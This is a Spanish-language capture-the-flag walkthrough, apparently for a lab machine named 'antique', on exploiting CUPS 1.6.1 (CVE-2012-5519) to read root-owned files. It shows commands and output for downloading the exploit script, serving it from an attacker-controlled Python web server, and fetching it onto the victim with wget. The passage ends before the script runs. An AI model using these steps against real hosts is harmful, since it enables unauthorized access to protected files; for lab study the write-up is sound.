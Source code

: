 <h2 id="CUPS">Buscando y Probando Exploits para CUPS 1.6.1</h2>

Encontre un Exploit que podemos usar de 2 formas, la primera es usando un módulo de **Metasploit** y la segunda es con una implementación de ese módulo, pero sin usar **Metasploit** sino un script en **Bash** que podemos descargar desde **GitHub**.

Vamos a ocupar primero el Exploit de **GitHub** y luego el de **Metasploit**.

<br>

<h3 id="CUPS2">Probando Exploit: cups-root-file-read.sh (CVE-2012-5519) de GitHub</h3>

Aquí lo puedes encontrar:
* <a href="https://github.com/p1ckzi/CVE-2012-5519" target="_blank">Repositorio de p1ckzi: cups-root-file-read.sh</a>

Para que el Exploit funcione, el usuario debe estar en el grupo **lpadmin**, que ya comprobamos que si lo esta.

Vamos por pasos para configurarlo y usarlo:

* Descarga el Exploit en tu máquina:
```bash
wget https://raw.githubusercontent.com/p1ckzi/CVE-2012-5519/main/cups-root-file-read.sh
--2023-05-17 16:40:30--  https://raw.githubusercontent.com/p1ckzi/CVE-2012-5519/main/cups-root-file-read.sh
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 13027 (13K) [text/plain]
Grabando a: «cups-root-file-read.sh»
cups-root-file-read.sh            100%[======================================>]  12.72K  --.-KB/s    en 0s      
2023-05-17 16:40:31 (33.2 MB/s) - «cups-root-file-read.sh» guardado [13027/13027]
```

* Abre un servidor en **Python**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Desde la máquina víctima, vamos a descargarlo:
```bash
lp@antique:~$ wget http://Tu_IP/cups-root-file-read.sh
--2023-05-17 22:41:31--  http://Tu_IP/cups-root-file-read.sh
Connecting to Tu_IP:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13027 (13K) [text/x-sh]
Saving to: ‘cups-root-file-read.sh’
cups-root-file-read.sh   0%[                                                                 
cups-root-file-read.sh  100%[===========================================>]  12.72K  --.-KB/s    in 0.02s   
2023-05-17 22:41:31 (754 KB/s) - ‘cups-root-file-read.sh’ saved [13027/13027]
```

* Démosle permisos de ejecución:
```bash
lp@antique:~$ chmod +x cups-root-file-read.sh
```
